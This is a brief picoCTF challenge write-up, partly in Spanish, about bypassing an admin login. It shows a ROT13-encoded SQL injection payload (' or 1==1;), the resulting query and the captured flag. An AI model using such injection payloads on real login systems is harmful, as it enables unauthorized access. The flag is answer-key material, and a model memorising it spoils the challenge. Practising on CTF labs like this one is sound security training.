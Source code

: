 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
## Hints
- Seems like the password is encrypted.
## Solución


```

password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```

## Notas Adicionales

hay que rotar 13 veces "or 1== 1;"

## Referencias